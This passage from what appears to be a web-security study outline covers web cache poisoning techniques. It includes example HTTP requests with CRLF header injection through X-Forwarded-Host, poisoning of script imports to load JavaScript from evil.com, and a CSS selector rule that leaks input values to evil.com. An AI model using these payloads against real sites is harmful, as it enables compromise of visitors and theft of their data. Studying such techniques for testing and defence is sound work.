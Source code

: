     - **Response header injection**
      - Inject values into response headers via unkeyed inputs
      - Example payload:
        ```http
        GET / HTTP/1.1
        Host: example.com
        X-Forwarded-Host: evil.com%0d%0aSet-Cookie:%20session=hacked
        ```
      - Target header reflection in responses
      - Poison cache with malicious headers (Set-Cookie, Location)

- **Advanced web cache poisoning techniques**
  
  - **Cache probing techniques**
    
    - **Cache busting**
      - Add unique parameter to avoid accidental poisoning
      - Example:
        ```
        GET /page?cb=123456 HTTP/1.1
        ```
      - Create distinct requests during testing
      - Ensure test requests don't affect other users
    
    - **TTL discovery**
      - Determine cache expiration times
      - Monitor Age header across multiple requests
      - Calculate optimal timing for attack execution
      - Plan poisoning to maximize exposure
    
    - **Cache implementation fingerprinting**
      - Identify specific cache technology (Varnish, Cloudflare, Akamai)
      - Test cache-specific headers and behaviors
      - Tailor exploits to known implementation quirks
      - Example: Look for X-Varnish, CF-Cache-Status, X-Cache headers
  
  - **Web cache poisoning via resource import**
    
    - **Poisoning JavaScript includes**
      - Target dynamically generated script URLs
      - Example payload:
        ```http
        GET / HTTP/1.1
        Host: example.com
        X-Forwarded-Host: evil.com
        ```
      - Response contains: `<script src="https://evil.com/analytics.js"></script>`
      - Serve malicious JavaScript from attacker domain
      - Compromise all visitors while poisoned response is cached
    
    - **Poisoning stylesheets**
      - Target dynamically generated CSS URLs
      - Use CSS to extract sensitive information
      - Example CSS attack:
        ```css
        input[value^="a"] { background-image: url(https://evil.com/a); }
        ```
      - Leak data through side-channel attacks
      - Exploit CSS selector behavior for information gathering
    